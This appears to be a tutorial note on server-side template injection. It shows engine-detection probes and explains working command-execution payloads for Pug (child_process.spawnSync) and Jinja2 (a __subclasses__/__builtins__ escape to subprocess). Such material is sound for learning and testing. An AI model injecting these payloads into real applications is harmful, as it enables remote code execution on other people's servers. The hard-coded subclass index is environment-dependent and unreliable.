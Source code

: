 ### Parsing
Template engines parse files with both static and dynamic content. At runtime, they replace dynamic parts with provided data to generate the final output.

The code below shows how to use a Jinja2 template. `{{ name }}` is a placeholder that gets replaced with the provided value `"World"` during rendering, resulting in the output `Hello, World!`.
```python
from jinja2 import Template

hello_template = Template("Hello, {{ name }}!")
output = hello_template.render(name="World")
print(output)
```
### Determining the Template Engine
- **Jinja2**: `{{7*'7'}}` → `7777777`
- **Twig**: `{{7*'7'}}` → `49`
- **Jade/Pug**: `#{7*'7'}` → `49`
### Pug
Pug lets you execute JavaScript directly:
```js
#{root.process.mainModule.require('child_process').spawnSync('ls').stdout}
```
- `root`: global object
- `process`: Node.js global object
- `mainModule`: property of `process`
- `require`: function that loads modules like `fs`, `child_process` etc.
- `child_process`: Node.js module to run system commands (`ls`, `cat`)
- `spawnSync`: method of `child_process`, to run command synchronously
	- `stdout`: standard output (what the command prints)
    - `stderr`: errors, if any
    - `status`: exit code
#### How to use `spawnSync`
```javascript
spawnSync(command, [args], [options])
```
- **`command`**: The system command you want to run (like `"ls"` or `"ping"`).
- **`args`** _(optional)_: A list of extra words to pass to the command (like `["-l", "/"]`).
- **`options`** _(optional)_: Settings like where to run it from, environment variables, or how long to wait.

```js
spawnSync("ls", ["-l", "/"])
```

Runs:
```bash
ls -l /
```

### Jinja2
```python
{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}}
```
- `"".__class__.__mro__[1]`: accesses the base `object` class, the superclass of all Python classes.
- `.__subclasses__()`: Gets a list of all classes that directly inherit from `object`. This list includes built-in Python classes like `file`, `function`, `type`,
- `[157]` is typically the index for the `subprocess.Popen` class
-  `.__repr__.__globals__`: Accesses the `__globals__` dictionary of the `__repr__` method from that subclass, exposing the global scope.
- `.get("__builtins__")`: Gets the built-in functions and objects (like `open`, `eval`, `__import__`, etc.)
- `.get("__import__")` : Fetches Python’s built-in `__import__()` function, which allows importing any module